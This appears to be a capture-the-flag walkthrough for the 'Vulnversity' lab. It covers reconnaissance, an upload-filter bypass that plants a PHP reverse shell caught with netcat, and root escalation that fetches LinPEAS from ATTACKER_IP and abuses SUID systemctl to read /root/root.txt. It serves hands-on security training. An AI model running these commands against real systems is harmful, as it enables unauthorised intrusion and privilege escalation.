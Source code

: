 # Vulnversity
## Reconnaissance

| Nmap Flag | Description
| --- | ---
| `-sV` | Attempt to determine version of running services.
| `-p <x>` or `-p-` | Port scan for port <x> or scan all ports.
| `-Pn` | Disable host discovery and scan for open ports.
| `-A` | Enable OS and version detection, executes in-built scripts for further examination.
| `-sC` | Scan with default Nmap scripts.
| `-v` | Verbose mode.
| `-sU` | UDP port scan.
| `-sS` | TCP SYN port scan.

## Locating Directories Using [Gobuster](https://github.com/OJ/gobuster)
* Brute forces URIs (directories and files), DNS subdomains, and virtual host names.
* Install Gobuster on Kali.
```
sudo apt-get install gobuster
```
* Requires wordlist to identify if public directory is available.
* Kali `/usr/share/wordlists` folder contains many wordlists.

| Gobuster Flag | Description
| --- | ---
| `dir` | Use directory/file bruteforcing.
| `-e` | Prints full URLs to the console.
| `-u` | Target URL.
| `-w` | Path to wordlist.
| `-U` and `-P` | Username and password for basic authentication.
| `-p <x>` | Proxy to use for requests.
| `-c <http cookies>` | Specify cookie for simulatin authentication.

## Compromise the Webserver
* [Download reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).
* Upload to `http://TARGET_IP:3333/internal/`.
  * PHP file extensions blocked by upload form.
* Fuzz upload form using BurpSuite to identify which extensions are not blocked.
### Use the Intruder to automate customised attacks.
#### 1. Make a wordlist of extensions.
```
printf "php\nphp3\nphp4\nphp5\nphtml" >  phpext.txt
```
#### 2. Intercept browser traffic with BurpSuite.
#### 3. Send captured request to Intruder.
* "Sniper" attack type.
* "Payload Positions" > find the filename > prefix and suffix `§` to extension.
* "Payloads" > "Payload settings" > "Load" > phptext.txt.
   * `.phtml` extensions allowed by upload form.
#### 4. Start the attack.
* Edit `php-reverse-shell.php`.
   * Change IP to attacking machine.
   * Rename file to `php-reverse-shell.phtml`.
* Reverse shell is called on target.
* Forces a connection to listening attacker.
```
mv php-reverse-shell.php php-reverse-shell.phtml
```
#### 5. Listen to incoming connections using netcat.
```
nc -lvnp 1234
```
#### 6. Upload shell to webserver.
#### 7. Execute payload.
* Navigate to `http://TARGET_IP:3333/internal/uploads/php-reverse-shell.phtml`
#### 8. Connection established on Netcat session.
```
Connection from 10.10.240.196 33302 received!
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 10:00:44 up  1:34,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
## Privilege Escalation
* Linux SUID (set owner userId upon execution) is special type of file permission.
* Gives temporary permissions to a user to run binary with permission of file owner.
  * E.g. `/usr/bin/passwd` binary file to change user password has SUID bit set.
    * User needs to be able to write to shadowers file but only root has access by default.
    * User account has root privileges to make the right changes.
```
4  2  1  4  2  1  4  2  1
r  w  x  r  w  x  r  w  x
SUID  V     V     V
r  w  s  r  w  x  r  w  x
-------
 User
```
#### 1. Upgrade to TTY shell using Python.
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
#### 2. Search for all SUID files.
```
find / -user root -perm -4000 -print 2>/dev/null
```
  * `-user root` is file owner.
  * `-perm 4000` specifies permissions.
#### 3. Use [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) scripts to identify SUID vulnerabilties.
```
mkdir /home/kali/linpeas
cd /home/kali/linpeas
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```
#### 4. Serve payload through python webserver.
```
python3 -m http.server
```
#### 5. Download LinPEAS to target.
* Ensure that target directory has write permissions (`/tmp`).
* Write LinPeas output to txt file.
```
wget http://ATTACKER_IP:8000/linpeas.sh
chmod +c ./linpeas.txt
./linpeas.sh -a > linpeas.txt
```
#### 6. Read SUID part of linpeas.txt file.
```
grep -A 50 "SUID - Check easy privesc, exploits and write perms" ./linpeas.txt
```
   * `-A 50` means list 50 lines after the search term "SUID - Check easy privesc, exploits and write perms".
* LinPEAS shows /bin/systemctl highlighted in red/yellow signifying a 95% privilege escalation vector.
#### 7. Browse to [GTFOBins](https://gtfobins.github.io)
  * Select `SUID`'
  * `CTRL+F` and search for `systemctl`.
> If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.
#### 8. `cd /tmp` as this directory is writable.
#### 9. Create local SUID copy of bash binary and run it to maintain elevated (root) privileges.
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
Created symlink from /etc/systemd/system/tmp.PzHSya3VD0.service to /tmp/tmp.PzHSya3VD0.service.
/bin/systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.X6k1yvp1ii.service to /tmp/tmp.X6k1yvp1ii.service. 
```
#### 10. `cat /tmp/output` to read file that contains contents of restricted `/root/root.txt` file.

